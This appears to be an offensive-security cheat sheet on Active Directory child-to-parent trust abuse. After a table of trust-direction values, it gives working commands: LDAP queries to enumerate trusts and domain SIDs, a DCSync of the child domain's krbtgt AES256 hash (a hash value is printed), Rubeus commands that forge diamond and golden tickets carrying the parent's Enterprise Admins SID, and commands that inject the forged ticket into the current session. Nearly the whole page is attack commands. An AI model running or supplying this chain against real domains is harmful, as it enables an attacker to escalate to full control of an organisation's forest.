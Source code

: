 
| Value | Trust Direction                 |
| ----- | ------------------------------- |
| 0     | `TRUST_DIRECTION_DISABLED`      |
| 1     | `TRUST_DIRECTION_INBOUND`       |
| 2     | `TRUST_DIRECTION_OUTBOUND`      |
| 3     | `TRUST_DIRECTION_BIDIRECTIONAL` |

| Value | Trust Direction                 |
| ----- | ------------------------------- |
| 0     | `TRUST_DIRECTION_DISABLED`      |
| 1     | `TRUST_DIRECTION_INBOUND`       |
| 2     | `TRUST_DIRECTION_OUTBOUND`      |
| 3     | `TRUST_DIRECTION_BIDIRECTIONAL` |

##### Child to Parent Abuse

Enumerate trusts in place
```powershell
ldapsearch (objectClass=trustedDomain) --attributes trustPartner,trustDirection,trustAttributes,flatName
```

Obtain krbtgt AES256 hash of the child domain
```powershell
dcsync dublin.contoso.com DUBLIN\krbtgt

2eabe80498cf5c3c8465bb3d57798bc088567928bb1186f210c92c1eb79d66a9
```

Obtain child domain SID and parent domain SID
```powershell
ldapsearch (objectClass=domain) --attributes objectSid

ldapsearch (objectClass=domain) --attributes objectSid --hostname lon-dc-1.contoso.com --dn DC=contoso,DC=com
```

Create diamond ticket (OPSEC SAFE) or a golden ticket offline
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /sids:S-1-5-21-3926355307-1661546229-813047887-519 /krbkey:2eabe80498cf5c3c8465bb3d57798bc088567928bb1186f210c92c1eb79d66a9 /nowrap

C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /user:Administrator /domain:dublin.contoso.com /sid:[Child SID] /sids:[Parent EA GROUP SID] /aes256:[Child KRBTGT HASH] /outfile:C:\Users\Attacker\Desktop\golden
```

Inject ticket into current session
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

kerberos_ticket_use C:\Users\Attacker\Desktop\[TICKET]
```